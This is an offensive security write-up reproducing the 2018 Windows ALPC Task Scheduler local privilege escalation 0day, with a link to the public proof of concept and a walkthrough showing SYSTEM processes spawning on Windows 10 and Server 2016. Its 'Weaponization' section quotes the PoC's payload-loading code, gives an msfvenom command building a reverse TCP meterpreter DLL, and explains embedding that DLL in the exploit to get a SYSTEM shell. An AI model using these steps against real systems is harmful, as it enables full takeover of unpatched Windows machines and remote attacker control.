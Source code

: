 # ALPC bug 0day

[https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar](https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar)

{% embed url="https://www.theregister.co.uk/2018/08/28/windows\_0day\_pops\_up\_out\_of\_span\_classstrikenowherespan\_twitter/" %}

## How to use

A 0day for a local priv esc for Windows was published August 28th on Twitter by @sandboxescaper, whose account was pulled quickly. The PoC is on [Github](https://github.com/SandboxEscaper/randomrepo). The video posted with the PoC wasn't evident so I made a quick reproduction to verify whether it works, and it certainly does.

* As Administrator, open [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) - right click, "Run as administrator"
* As a regular user, launch notepad. If you opened it from cmd, you get a subprocess notepad inside cmd. This thread runs with the user context you launched it with. Note that the PID of the notepad process is `3872`

![](../.gitbook/assets/image%20%2818%29.png)

![](../.gitbook/assets/image%20%2830%29.png)

* If you need to see username and  integrity level in Process Explorer you can go to View -&gt; Select columns and check 

![](../.gitbook/assets/image%20%2838%29.png)

Now, have a look at the process spoolsv.exe which is basically where the actions is going to happen. Nothing much here yet.

![](../.gitbook/assets/image%20%2846%29.png)

Now fire the exploit off and see what happens \(this is demonstrated in the PoC video\). We use the PID of the notepad process we spawned earlier `3872`

![](../.gitbook/assets/image%20%286%29.png)

Now, it appears that nothing is happening, but take a look at spoolsv in Process Explorer again.

![](../.gitbook/assets/image%20%285%29.png)

Bham! cmd.exe with subprocesses conhost and notepad has spawned as SYSTEM! 

### Windows 10 - works!

0day priv esc confirmed on Windows 10 1803. No patch has been released by MS yet \(28.08.2018\)

![](../.gitbook/assets/image%20%2810%29.png)

This could probably be tweaked to open an actual cmd window as SYSTEM instead of a windowless process in the background.

Edit on the above: @plaintext notified me that the processes spawn in session 0 which is why they won't be visible to the user which operations in session 1. If you toggle Session in the columns panel in ProcExplorer you can see that very clearly.

![](../.gitbook/assets/image%20%2817%29.png)

###  Server 2016 - works

![](../.gitbook/assets/image%20%2840%29.png)

### Windows 7 - Nothing happens

![](../.gitbook/assets/image%20%2848%29.png)

\*\*\*\*

### Weaponization maybe?

After reading the source code I discovered that notepad is launched from the `exploit.dll` added as a Resource. This can be seen at line 101-105 in the source code.

```text
//Payload is included as a resource, you need to modify this resource accordingly.
HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
unsigned int myResourceSize = ::SizeofResource(mod, myResource);
HGLOBAL myResourceData = ::LoadResource(mod, myResource);
void* pMyBinaryData = ::LockResource(myResourceData);
```

When clicking that one, we can see this exploit.dll which in the PoC just spawns notepad can't be read since I don't have it in that absolute path.

![](../.gitbook/assets/image%20%2837%29.png)

So instead of recompiling and fixing the 500 errors I got from visual studio I decided it was easier to replace the dll directly as a  Resource with [CFF Explorer](https://ntcore.com/?page_id=388)'. But before I did that I had to prepare the payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.16 lport=444 -f dll -o lol.dll`

Select "Replace Resource \(raw\)" in CFF Explorer and provide the `lol.dll`. Then save the `ALPC-TaskSched-LPE.dll` as a new file. The entire exploit is now embedded into the dll file

![](../.gitbook/assets/image%20%2855%29.png)

So we  fire of the exploit again, just like we did above and wait for our shell to come back.

Woop de doo we got a SYSTEM meterpreter.

![](../.gitbook/assets/image%20%2828%29.png)

